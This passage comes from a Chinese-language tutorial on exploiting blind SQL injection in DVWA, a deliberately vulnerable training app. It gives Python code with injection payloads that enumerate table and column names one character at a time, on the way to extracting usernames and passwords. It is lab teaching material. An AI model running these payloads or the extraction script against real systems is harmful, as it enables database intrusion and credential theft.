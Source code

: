 ```
query = "1' AND SUBSTR((SELECT table_name from information_schema.tables WHERE table_type='base table' AND table_schema='{}' {} LIMIT 1),{},1)='{}'%23"

found_tables = [[] for _ in range(n_tables)]
completion = ""
for i in range(n_tables):        
    for j in range(1, 10):
        for c in string.ascii_lowercase:
            if get_query_result(s, sqli_blind_url, query, dbname, completion, j, c):
                found_tables[i].append(c)
                break
    print("\t","".join(found_tables[i]))
    completion += f" AND table_name <> '{''.join(found_tables[i])}'"
```

很好，现在我们几乎已经看到了实现这个漏洞所需要的一切！
你可能已经意识到，即使我们在安全级别较低的 DVWA 上，即使你决定不使用 python，一个盲 SQL 注入也可能很棘手，一个有效的利用可能需要很大的努力。

# 步骤#5:在一次隐蔽的 SQLi 攻击中获取列名

我们几乎到了最有趣的部分，现在我们需要得到列名。
和我们之前做的一样，我想知道列的数量，然后得到名称。
当脚本的用户看到我们需要的表格(包含用户名和密码的表格)时，我还将为他提供用 CTRL+C 中断循环的可能性。这会节省更多的时间。

用户还必须插入目标表，以便最终我们可以运行一次脚本并获得用户名和密码。

```
users_table = input("Type the tabname to attack: ")
query = "1' AND (SELECT COUNT(*) FROM information_schema.columns WHERE table_name='{}')='{}'%23"

n_columns = 0
for i in range(1, 10):
    if get_query_result(s, sqli_blind_url, query, users_table, i):
        print(f"[+] It has {i} columns")
        n_columns = i
        break
```

获取列数这正是我们已经做的，所以我们可以跳过，看看如何获取列名。

```
query = "1' AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='{}' LIMIT {}, 1),{},1)='{}'%23"

found_columns = [[] for _ in range(n_columns)]
completion = ""
print("[!] In order to speed up, try to press CTRL+C when you find the user and password columns")
try:
    for i in range(n_columns):        
        for j in range(1, 12):
            for c in string.ascii_lowercase:
                if get_query_result(s, sqli_blind_url, query, users_table, i, j, c):
                    found_columns[i].append(c)

                    break
        print("\t","".join(found_columns[i]))
except KeyboardInterrupt as e:
    print("\nSkipping this phase!")
```

